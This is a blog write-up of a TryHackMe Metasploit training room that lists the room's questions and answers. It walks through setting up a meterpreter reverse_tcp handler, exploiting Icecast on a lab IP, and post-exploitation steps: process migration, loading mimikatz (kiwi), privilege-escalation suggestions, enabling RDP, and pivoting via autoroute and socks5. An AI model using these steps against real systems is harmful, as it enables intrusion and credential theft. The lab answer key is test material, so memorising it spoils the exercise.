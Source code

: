 ```yaml
---
title: "RP Metasploit | TryHackMe"
date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - cybersecurity
  - writeup
---
```


---

RP Metasploit TryHackMe
Learn to use Metasploit, a tool to probe and exploit vulnerabilities on networks and servers.
Task 1 Intro
Kali and most other security distributions of Linux include Metasploit by default. If you are using a different distribution of Linux, verify that you have it installed or install it from the Rapid 7 Github repository.
Metasploit

---

Task 2 Initializing…
First things first, we need to initialize the database! Let's do that now with the command
msfdb init
msfdb initBefore starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command:
msfconsole -h
msfconsole -hWe can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'
-q
msfconsole -qOnce the database is initialized, go ahead and start Metasploit via the command:
msfconsole
msfconsoleAfter Metasploit has started, let's go ahead and check that we've connected to the database. Do this now with the command:
db_status
db_statusCool! We've connected to the database, which type of database does Metasploit 5 use?
postgresql

---

Task 3 Rock'em To The Core
Using the help menu, let's now learn the base commands and the module categories in Metasploit. Nearly all of the answers to the following questions can be found in the Metasploit help menu.
Let's go ahead and start exploring the help menu. On the Metasploit prompt (where we'll be at after we start Metasploit using msfconsole), type the command:
help
helpThe help menu has a very short one-character alias, what is it?
?
Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?
search
searchOnce we've found the module we want to leverage, what command we use to select it as the active module?
use
useHow about if we want to view information about either a specific module or just the active one we have selected?
info
infoMetasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?
connect
connectEntirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?
banner
bannerWe'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?
set
setMetasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?
setg
setgNow that we've learned how to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.
get
getHow about changing the value of a variable to null/no value?
unset
unsetWhen performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?
spool
spoolLeaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.
save
save

---

Task 4 Modules For Every Occasion!
Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it. Let's take a quick look through the various modules, their purposes, and some of the commands associated with modules.
*Note, this diagram includes both the interfaces and *most\* of the modules. This diagram does not include the 'Post' module.Easily the most common module utilized, which module holds all of the exploit code we will use?
exploit
Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?
payload
Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.
auxiliary
One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?
post
Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?
encoder
Last but not least, which module is used with buffer overflow and ROP attacks?
nop
Not every module is loaded in by default, what command can we use to load different modules?
load

---

Task 5 Move That Shell!
Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!
As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.
Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command
db_nmap -sV 10.10.199.128
db_nmap -sV 10.10.199.128What service does nmap identify running on port 135?
msrpc
msrpcLet's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
hostsHow about something else from the database, try the command services now.
servicesOne last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
vulnsNow that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? \*This will include the exploit section at the start
exploit/windows/http/icecast_header
exploit/windows/http/icecast_headerWhile that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
multi/handlerGo ahead and run the command use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
use 5
use 5What is the name of the column on the far left side of the console that shows up next to 'Name'?

#

Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
use show options commandLet's go ahead and return to our previous exploit, run the command use icecast to select it again.
One last step before we can run our exploit. Run the command set RHOSTS 10.10.199.128 to tell Metasploit which target to attack.
always show options to see if all requirement are metOnce you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.
recommend use -j commandOnce we've started this, we can check all of the jobs running on the system by running the command jobs
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER
sessionssessions -i SESSION_NUMBER

---

Task 6 Were In, Now What?
Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.
First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?
psLet's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!
migrate
Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
getuid
getuidHow about finding more information out about the system itself?
sysinfo
sysinfoThis might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?
load kiwi
Let's go ahead and figure out the privileges of our current user, what command do we run?
getprivs
getprivsWhat command do we run to transfer files to our victim computer?
upload
How about if we want to run a Metasploit module?
run
A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
ipconfig
Let's go ahead and run a few post modules from Metasploit. First, let's run the command run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
post/windows/gather/checkvmNext, let's try: run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room Ice.
run post/multi/recon/local_exploit_suggesterFinally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp
run post/windows/manage/enable_rdpOne quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
shell
shell

---

Task 7 Making Cisco Proud
Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.
Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
run autoroute -s 172.18.1.0 -n 255.255.255.0
Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command search server/socks5. What is the full path to the socks5 auxiliary module?
auxiliary/server/socks5
Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?
proxychains

